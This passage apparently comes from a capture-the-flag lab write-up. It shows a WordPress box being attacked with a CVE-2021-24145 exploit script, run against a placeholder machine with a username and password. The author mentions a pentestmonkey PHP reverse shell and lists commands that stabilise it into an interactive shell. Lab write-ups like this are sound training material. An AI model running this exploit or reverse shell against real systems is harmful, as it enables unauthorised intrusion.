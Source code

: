 ![](./assets/dashboard.png)

No need to think more, I could use the exploit of CVE-2021-24145. Before using it, I decided to change the provided shell by the **php pentest monkey** reverse shell from https://www.revshells.com/.

`python3 exploit.py -T MACHINE_IP -P 80 -U "/wordpress/" -u k2 -p th3_tall3st_password_in_th3_world`

![](./assets/reverse_shell.png)

I stabilized my shell with the following commands:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export SHELL=bash
export TERM=$TERM
stty rows <r> columns <c>
```
